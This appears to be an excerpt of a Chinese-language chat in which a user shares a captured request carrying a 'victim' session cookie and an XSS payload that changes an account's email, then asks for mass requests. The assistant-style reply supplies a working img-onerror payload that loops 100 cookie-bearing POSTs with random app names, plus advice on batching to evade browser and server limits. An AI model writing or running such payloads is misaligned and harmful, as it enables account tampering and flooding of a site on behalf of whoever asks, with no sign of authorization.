 ```
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLV2PQ.HLDxT0jYvj7f-dtg07v8tEX2C84
Connection: keep-alive
app_name=123

通过下面的ssrf漏洞一次发十个app_name不一样的包
<img src=x onerror="
  fetch('/update_email',{
    method:'POST',
    credentials:'same-origin',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'email=wodefa'
  }).then(r=>{}).catch(e=>{});
">
```

明白了，你希望生成 **大量请求**，而且 `app_name` 是 **随机的**。可以用 JS 循环配合随机字符串生成。示例如下：

```html
<img src=x onerror="
  function randomName(len) {
    const chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    let s = '';
    for (let i = 0; i < len; i++) s += chars[Math.floor(Math.random() * chars.length)];
    return s;
  }
  
  for (let i = 0; i < 100; i++) { // 这里控制请求数量，比如 100
    const name = randomName(8);   // 每个 app_name 随机 8 位
    fetch('/create_app', {
      method: 'POST',
      credentials: 'same-origin',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
      body: 'app_name=' + encodeURIComponent(name)
    }).then(r => console.log('Created', name))
      .catch(e => console.error(e));
  }
">
```

### 说明

1. `randomName(len)`：生成指定长度的随机字符串作为 `app_name`。
2. `for (let i = 0; i < 100; i++)`：循环次数可以改，决定要发多少请求。
3. `credentials: 'same-origin'`：带上 cookie。
4. `encodeURIComponent(name)`：防止特殊字符报错。

> ⚠️ 注意：如果请求数量非常多（几百甚至上千），浏览器可能会限制并发请求，建议 **分批发送或加 `setTimeout` 控制间隔**，避免浏览器阻塞或服务器拒绝。

填满应用
